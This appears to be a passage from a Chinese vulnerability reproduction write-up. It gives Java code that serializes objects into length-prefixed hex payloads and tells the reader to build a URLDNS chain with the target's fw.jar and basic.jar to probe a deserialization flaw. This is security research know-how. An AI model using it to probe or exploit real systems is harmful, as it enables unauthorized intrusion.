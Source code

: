 ```php
public static void serialize(Object obj) throws IOException {
    // 创建一个字节数组输出流
    ByteArrayOutputStream baos = new ByteArrayOutputStream();
    // 创建一个对象输出流
    NetObjectOutputStream oos = new NetObjectOutputStream(baos);
    oos.writeObject(obj);
    oos.finish();
    oos.flush();
    // 获取字节数组
    byte[] bytes1 = {(byte) ((baos.size() >>> 24) & 255), (byte) ((baos.size() >>> 16) & 255), (byte) ((baos.size() >>> 8) & 255), (byte) ((baos.size() >>> 0) & 255)};
    byte[] bytes2 = baos.toByteArray();
    // 将字节数组转换为十六进制字符串并输出
    String hexString1 = DatatypeConverter.printHexBinary(bytes1);
    String hexString2 = DatatypeConverter.printHexBinary(bytes2);
    System.out.println(hexString1+hexString2);
}
```

![image.png](assets/1703831527-d6a5fc0a76e6b7d16c90950451af4b73.jpg)

## 漏洞复现

编写DNSURL链进行反序列化点的探测，序列化方法使用上面提供代码即可。注意一定要引入对应系统版本的依赖包`fw.jar`和`basic.jar`，否则生成的序列化数据可能会无法成功反序列化。  
![image.png](assets/1703831527-0b6154d69ab0e14b6dd8e80456405de5.jpg)  
输出十六进制字符串payload  